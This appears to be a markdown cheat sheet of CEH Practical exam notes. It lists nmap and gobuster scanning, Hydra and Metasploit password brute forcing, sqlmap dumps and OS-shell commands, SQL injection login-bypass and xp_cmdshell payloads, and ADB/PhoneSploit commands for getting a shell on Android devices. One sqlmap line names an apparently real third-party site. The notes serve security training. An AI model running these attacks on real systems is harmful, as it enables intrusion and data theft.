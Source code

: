 Reference: 
https://github.com/DarkLycn1976/CEH-Practical-Notes-and-Tools
https://github.com/hunterxxx/CEH-v12-Practical
https://medium.com/@abdulmajidjamil/ceh-practical-lpt-master-ctf-notes-in-general-d0cb7007dacd
https://immpetus.gitbook.io/ceh-practical/nmap-tool

# Scanning

<details>
  <summary>Netdiscover</summary>


## Netdiscover 
  
```console
netdiscover -i eth0
netdiscover -r x.x.x.1/24
```
</details>

<details>
  <summary>Nmap</summary>

 * NMAP Scripts
```console
nmap -p 389 -T4 -A -v --script ldap-rootdse nnn.nnn.nnn.nnn/nn
nmap --script ftp-brute -p 21 <host>
Nmap -Pn -p 3389 target > rdp  // grep -B 5 open rdp
Nmap -Pn -p 3306 target > mysql // grep -B 5 open mysql
```

 * Certain port scans
```console
Nmap -Pn -p 3389 target > rdp  // grep -B 5 open rdp
Nmap -Pn -p 3306 target > mysql // grep -B 5 open mysql
nmap -p443,80,53,135,8080,8888 -A -O -sV -sC -T4 -oN nmapOutput 10.10.10.10
```

* To scan the live Host
```console
nmap -sP x.x.x.1/24                 
nmap -sn x.x.x.1/24
```
* To find the Specific open port 
```console
nmap -p port x.x.x.1/24 --open
```
* To find the OS 
```console
nmap -O x.x.x.x 
```
* Comprehensive Scan
```console
nmap -Pn -A x.x.x.1/24 -vv --open   
```

</details>

# If have web service, try enumerate:
<details>
  <summary>Gobuster</summary>
  
```shell
gobuster -e -u http://10.10.10.10 -w wordlsit.txt
```

```shell
gobuster vhost -v -w /home/username/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://workers.htb -o vhosts.txt --append-domain

> if you don't "--append-domain", you might not find anything
```
</details>



# Credential / Password Attacks
<details>
   <summary>Bruteforce SMB</summary>

* SMB Cracking with Hydra
  
```console
hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb
```
* SMB Cracking with Metasploit

```console
For Cracking SMB Password:
we need to make folder -> store wordlist into that -> run msf from that folder | This process makes your work even better and smooth.
>msfconsole .
>use auxiliary/scanner/smb/smb_login
>show option | To get an idea of what to set on
>set PASS_FILE ./ROKYOU.TXT
>set rhost {target IP address} | notes :- rhost means remote host
>set SMBUser name [of the user] | (generally Administrator is username)
>run
```
</details>


  </details>

<details>
  <summary>Bruteforce SSH</summary>
  
```console
hydra -l username -P passlist.txt x.x.x.x ssh
```
</details>

<details>
  <summary>Bruteforce TELNET</summary>
  
```console
hydra -l admin -P passlist.txt -o test.txt x.x.x.x telnet
```
</details>

<details>
  <summary>Bruteforce FTP</summary>

```console
    TRY user "annoymous" + no password
  ```
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x

• If the service isn't running on the default port, use -s
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x -s 221

• Used to download the specific file from FTP to attacker or local machine
get flag.txt ~/Desktop/filepath/flag.txt


```
</details>

<details>
 <summary>Password Cracking - John</summary>

```console
john --single --format=md5crypt crack.txt
```
</details>

<details>
 <summary>Password Cracking - Hashcat</summary>

```console
Hashcat
```
</details>

<details>
 <summary>Password Cracking - WIFI Encryption </summary>

```console
aircrack-ng pcap.cap -w /usr/share/wordlists/rockyou.txt
```

</details>





# Vulnerability Scanning 

<details>
  <summary>Nessus</summary>
  
```console
Nessus runs on https[:]//localhost[:]8834
```
</details>

<details>
  <summary>Nikto</summary>
  
```console
nikto -h 
```
</details>

# Hidden text

<details>
  <summary>Snow</summary>
  
```console
snow -C -p "magic" readme2.txt
```
</details>

<details>
<summary>Steghide</summary>

```console
```
</details>




# WIRESHARK
<details>

  ```shell
    select_packet > follow > TCP Stream
  ```
  * To the get the specific method like ( post , get )
  
  ```console
  http.request.method==post
  http.request.method==get
  ```
  * To the Find DOS & DDOS, go to Statistics and Select Conversations , sort by packets in IPv4 based on number of Packets transfer
  
  ```shell
  Statistics > Conversations > IPv4 > Packets
  ```
View Flood attack on victim via Wireshark 
```console
•	| use filter tcp.port=21 
 ```
https://www.comparitech.com/net-admin/wireshark-cheat-sheet/
</details>



# SQL

<details>

```console
SQLMAP Extract DBS
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs

Extract Tables
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables

Extract Columns
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns

Dump Data
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump

OS Shell to execute commands
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell

Login bypass
•	blah' or 1=1 --

Insert data into DB from login
•	blah';insert into login values ('john','apple123');

Create database from login
•	blah';create database mydatabase;

Execute cmd from login
•	blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --
```

Other SQLi
```shell
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—
```


SQLMAP

```shell
* For finding DBs:
sqlmap -u "------/id=1" --dbs --batch
sqlmap -u "https://bliss-hotel.000webhostapp.com/room_details.php?room_type_id=RM101" --dbs --batch

* Find DBs 
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs --batch

* Find Tables =
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --table --batch

* Find columns = 
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --columns --batch

* Dump table =
 sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --dump --batch

* Dump the DB =
 sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --dump-all --batch

* Using cookies : 
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --cookie='JSESSIONID=09h76qoWC559GH1K7DSQHx' --random-agent --level=1 --risk=3 --dbs --batch

* manual SQL Injection
in login page enter blah' or 1=1-- as username and click login without entering the password

* GET access of OS Shell = 
sqlmap -u 'url' --dbms=mysql --os-shell SQL Shell = sqlmap -u 'url' --dbms=mysql --sql-shell
```

</details>
</details>





# VERACRYPT 


# CUSTOM WORDLIST 

<details>
<summary>Cewl</summary>
  
* cewl is the tool, example.com is the site, -m is to specify the minimum length of the word , -w is to specify the output file
  
```console
cewl example.com -m 5 -w words.txt
```
</details>



# MOBILE 

<details>
  <summary>ADB</summary>
  
* To Install ADB
```console
apt-get update
sudo apt-get install adb -y
adb devices -l
```
* Connection Establish Steps

```console
adb connect x.x.x.x:5555
adb devices -l
adb shell  
```
* To navigate
```console
pwd
ls
cd Download
ls
cd sdcard
```
* Download a File from Android using ADB tool
```console
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```
</details>

<details>
  <summary>PhoneSploit</summary>
  
* To install Phonesploit 

```console
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
OR
python3 -m pip install colorama
```
* To run Phonesploit
```console
python3 phonesploit.py
```
* Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
* Type 4, to Access Shell on phone
* Download File using PhoneSploit
```console
9. Pull Folders from Phone to PC
```
* Enter the Full Path of file to Download
```console
sdcard/Download/secret.txt
```  
</details>




# resources 

* https://github.com/nirangadh/ceh-practical/blob/main/module03-Scanning-Networks.txt
* https://github.com/Samson-DVS/CEH-Practical-Notes/tree/main

